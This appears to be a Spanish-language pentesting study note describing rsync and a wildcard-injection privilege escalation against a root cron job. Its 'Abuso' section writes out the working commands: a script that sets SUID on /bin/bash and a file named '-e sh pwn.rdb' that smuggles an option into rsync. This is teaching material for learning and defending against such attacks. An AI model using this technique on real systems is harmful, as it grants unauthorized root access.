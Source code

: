 -----
- Tags: #teoria #practica #basico 
- ------

# Rsync

**Rsync** es una utilidad de sincronización y copia de archivos que se utiliza para transferir y sincronizar datos entre directorios, ya sea en la misma máquina o entre máquinas remotas a través de una red. La principal caraterística distintiva de rysnc es su eficiencia en la trasnsferencia de datos, ya que utiliza algoritmos avanzados que minimizan el uso de ancho de banda y reducen el teimpo necesario para sincronizar archivos. 

----

# Abuso 

En máquinas donde se use rsync, depende el uso que se le de podría suponer un riesgo, por ejemplo, supongamos que tenemos una tarea cron que es ejecutada por root la cual se encarga de realizar la siguiente operación. 

```bash 
rsync -a *.rdb rsync://backup:873/src/rdb
```

Lo que vemos es que se esta haciendo uso del '**\***' lo que no es buena idea ya que de alguna manera se confía en el input del usuario (Sobre todo si el directorio de trabajo contiene permisos de escritura). 

Al utilizar **\*.rdb** se estan englobando a todos los archivos finalizados en **.rdb** de manera que podríamos abusar de esto de una manera muy sensilla. 

```bash
echo -e "#!/bin/bash\n\nchmod u+s /bin/bash" > pwn.rdb 
touch -- '-e sh pwn.rdb'
```

De esta manera lo que estamos haciendo es crear un archivo llamada **pwn.rdb** 

#### pwn.rdb content:
```bash
#!/bin/bash

chmod u+s /bin/bash
```

Y por otro lado crear un archivo llamado **-e sh pwn.rdb**, lo que ocaciona que al estar haciendo uso del '**\***' (*Wildcards*) para englobar todos los archivos que terminen en **.rdb**, ambos terminana en *.rdb* pero el primero (**pwn.rdb**) contiene un script en bash que le otorga un permiso SUID a la bash y el otro (**-e sh pwn.rdb**) permite inyectar este "archivo" como comando, y dado que **rsync** cuenta con el parametro **-e** el cual permite ejecución de comandos. Esto lo podemos encontrar en páginas como [gtfobins](https://gtfobins.github.io/gtfobins/rsync/#shell).


